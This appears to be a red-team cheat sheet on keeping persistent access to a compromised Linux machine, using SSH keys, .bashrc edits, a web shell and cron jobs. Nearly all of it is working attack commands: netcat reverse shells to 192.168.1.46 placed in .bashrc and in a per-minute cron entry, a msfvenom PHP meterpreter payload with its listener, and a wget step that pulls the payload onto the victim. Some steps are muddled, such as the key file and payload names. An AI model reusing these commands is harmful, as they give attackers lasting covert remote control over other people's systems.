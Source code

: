 # Linux Persistent

## Via ssh keys

   linux victim 
    · Ssh-keygen
    · /home/nooranet/.ssh/id_rsa.pub
    · Copy content of id_rsa.pub and add it  to /root/.ssh/authorization_keys of Attacker
    · Ssh root@victimIP

## Via .bashrc

    nano /home/nooranet/.bashrc
        * nc  -l  -p  1111
        * nc 192.168.1.46 443 -e /bin/bash

## Via web shell

    payload
        * msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -e php/base64 -f raw > /home/nooranet/Red/backup.php
    listener
        * Msfconsole 
        * Use multi/handler
        * Set payload php/meterpreter/reverse_tcp 
        * Set lhost 192.168.1.46
        * Set lport 443
        * Run -j 
    Download paylaod from victim 
        * Wget http://192.168.1.46/backup.php

## Via cron job

    Crontab -e 
        *  *  *  *  * nc 192.168.1.46 443 -e /bin/bash
        *  *  *  *  * php -f /var/www/html/backup.html
